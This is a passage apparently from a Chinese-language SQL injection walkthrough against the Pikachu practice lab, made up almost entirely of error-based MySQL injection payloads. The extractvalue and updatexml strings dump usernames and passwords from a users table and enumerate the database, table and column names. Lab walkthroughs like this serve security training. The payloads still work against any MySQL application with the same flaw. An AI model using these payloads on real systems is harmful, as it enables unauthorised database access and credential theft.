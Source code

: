 ![image-20220206210857784](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120355.png)

```
爆内容
1' and extractvalue(1,concat(0x7e,(select group_concat(username,": ",password) from users),0x7e)) or'
1' and extractvalue(1,concat(0x7e,substr((select group_concat(username,": ",password) from users),64),0x7e)) or'
1' and extractvalue(1,concat(0x7e,substr((select group_concat(username,": ",password) from users),96),0x7e)) or'
```

![image-20220206211030191](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120512.png)

#### **update型注入**

```
库名
1'and updatexml(1,concat(0x7e,database()),0) or'
```

```
表名
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from
information_schema.tables where table_schema="pikachu"),0x7e),1) or'
1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema="pikachu"),32),0x7e),1) or'
```

```
字段
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="users"),0x7e),1) or'
1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name="users"),32),0x7e),1) or'
```

